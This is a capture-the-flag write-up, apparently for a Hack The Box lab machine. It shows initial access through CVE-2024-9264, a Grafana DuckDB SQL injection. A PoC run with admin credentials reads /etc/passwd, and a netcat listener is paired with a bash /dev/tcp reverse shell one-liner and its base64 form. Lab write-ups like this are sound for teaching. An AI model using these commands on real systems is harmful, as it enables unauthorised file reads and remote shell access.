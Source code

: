 ### CVE-2024-9264


The Grafana version running on this target is vulnerable to [Grafana Post-Auth DuckDB SQL Injection (RCE, File Read)](https://github.com/nollium/CVE-2024-9264).


## Initial Access

Use the PoC exploit to read `/etc/passwd`:

```
┌──(venv)─(kali㉿kali)-[~/htb-machine/planning/CVE-2024-9264]
└─$ python3 CVE-2024-9264.py -u admin -p 0D5oT70Fq13EvB5r -f /etc/passwd http://grafana.planning.htb/

[+] Logged in as admin:0D5oT70Fq13EvB5r
[+] Reading file: /etc/passwd
[+] Successfully ran duckdb query:
[+] SELECT content FROM read_blob('/etc/passwd'):
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
grafana:x:472:0::/home/grafana:/usr/sbin/nologin
                                                
```

To get a reverse shell, encode the payload and run it via the Grafana PoC. First, start a netcat listener on your machine:

Start listener locally

```
nc -lvnp 4444
```

Encode the one-liner reverse shell in base64 (example payload below):

```
# Plain payload
bash -i >& /dev/tcp/10.10.14.97/4444 0>&1

# Base64-encoded payload (example)
echo -n 'bash -i >& /dev/tcp/10.10.14.97/4444 0>&1' | base64
# => YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC45Ny80NDQ0IDA+JjE=

```
